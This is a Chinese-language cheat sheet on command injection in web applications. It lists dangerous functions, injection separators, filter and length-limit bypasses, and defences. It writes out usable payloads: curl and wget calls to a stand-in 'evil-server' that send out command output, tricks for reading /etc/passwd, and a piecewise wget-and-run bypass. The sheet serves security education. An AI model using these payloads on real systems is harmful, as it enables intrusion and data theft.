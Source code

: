 
# 命令注入漏洞


## 简介

命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

注意, 命令执行只是针对系统命令，而远程代码执行(RCE)针对的是编程代码，两者不能混淆。

## 常见危险函数


### PHP

- system
- exec
- passthru
- shell_exec
- popen
- proc_open

### Python

- system
- popen
- subprocess.call
- spawn

### Java

- java.lang.Runtime.getRuntime().exec(command)

## 常见注入方式

- 分号分割
- ``||`` ``&&`` ``&`` 分割
- ``|`` 管道符
- ``\r\n`` ``%d0%a0`` 换行 
- 反引号解析
- ``$()`` 替换

## 无回显技巧

- bash反弹shell
- DNSLog
- http带外
    - ``curl http://evil-server/$(whoami)``
    - ``wget http://evil-server/$(whoami)``
- 无带外时利用 ``sleep`` 或其他逻辑构造布尔条件

## 常见绕过方式

### 空格绕过

- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

### 黑名单绕过

- ``a=l;b=s;$a$b``
- base64 ``echo "bHM=" | base64 -d``
- ``/?in/?s`` => ``/bin/ls``
- 连接符 ``cat /etc/pass'w'd``
- 未定义的初始化变量 ``cat$x /etc/passwd``

### 长度限制绕过


    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

## 常用符号  


### 命令分隔符

- ``%0a`` / ``%0d`` / ``\n`` / ``\r``
- ``;``
- ``&`` / ``&&``

### 通配符

- ``*`` 0到无穷个任意字符
- ``?`` 一个任意字符
- ``[ ]``  一个在括号内的字符，e.g. ``[abcd]``
- ``[ - ]``  在编码顺序内的所有字符
- ``[^ ]`` 一个不在括号内的字符

## 防御

- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell元字符
    - shell元字符包括 ``#&;`,|*?~<>^()[]{}$\``
